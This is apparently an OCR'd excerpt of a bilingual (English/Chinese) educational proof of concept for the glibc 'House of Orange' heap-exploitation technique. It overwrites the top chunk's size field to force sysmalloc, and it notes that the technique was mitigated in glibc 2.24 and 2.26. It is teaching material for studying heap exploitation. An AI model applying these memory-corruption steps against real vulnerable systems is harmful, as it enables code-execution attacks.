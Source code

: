 ```c
    size_t io_list_all, *top;

    fprintf(stderr, "The attack vector of this technique was removed by changing the behavior of malloc_printerr, "
        "which is no longer calling _IO_flush_all_lockp, in 91e7cf982d0104f0e71770f5ae8e3faf352dea9f (2.26).\n");
  
    fprintf(stderr, "Since glibc 2.24 _IO_FILE vtable are checked against a whitelist breaking this exploit,"
        "https://sourceware.org/git/?p=glibc.git;a=commit;h=db3476aff19b75c4fdefbe65fcd5f0a90588ba51\n");

    /*
      Firstly, lets allocate a chunk on the heap.
      首先，从Top chunk申请一个chunk.
    */
    p1 = malloc(0x400-16);

    /*
       The heap is usually allocated with a top chunk of size 0x21000
       在64位Linux中，通常会分配一块0x21000空间作为原始的Top chunk。
       Since we've allocate a chunk of size 0x400 already,
       由于我们已经分配了0x400的chunk了，
       what's left is 0x20c00 with the PREV_INUSE bit set => 0x20c01.
       就会剩下0x20c00，加上PREV_INUSE位，就是0x20c01。

       The heap boundaries are page aligned. Since the Top chunk is the last chunk on the heap,
       it must also be page aligned at the end.
       Top chunk作为heap的边界必须是页对齐的。

       Also, if a chunk that is adjacent to the Top chunk is to be freed,
       then it gets merged with the Top chunk. So the PREV_INUSE bit of the Top chunk is always set.
       而且，PREV_INUSE位必须被置为1.

       So that means that there are two conditions that must always be true.
       因此Top chunk 必须满足:
        1) Top chunk + size has to be page aligned
        2) Top chunk's prev_inuse bit has to be set.

       We can satisfy both of these conditions if we set the size of the Top chunk to be 0xc00 | PREV_INUSE.
       What's left is 0x20c01

       Now, let's satisfy the conditions
       1) Top chunk + size has to be page aligned
       2) Top chunk's prev_inuse bit has to be set.
    */

    top = (size_t *) ( (char *) p1 + 0x400 - 16);
    top[1] = 0xc01;

    /* 
       Now we request a chunk of size larger than the size of the Top chunk.
       Malloc tries to service this request by extending the Top chunk
       This forces sysmalloc to be invoked.
       当我们尝试申请一块大于Top chunk的空间，又小于mmap的阈值，就会调用sysmalloc拓展Top chunk。

       In the usual scenario, the heap looks like the following
          |------------|------------|------...----|
          |    chunk   |    chunk   | Top  ...    |
          |------------|------------|------...----|
      heap start                              heap end
```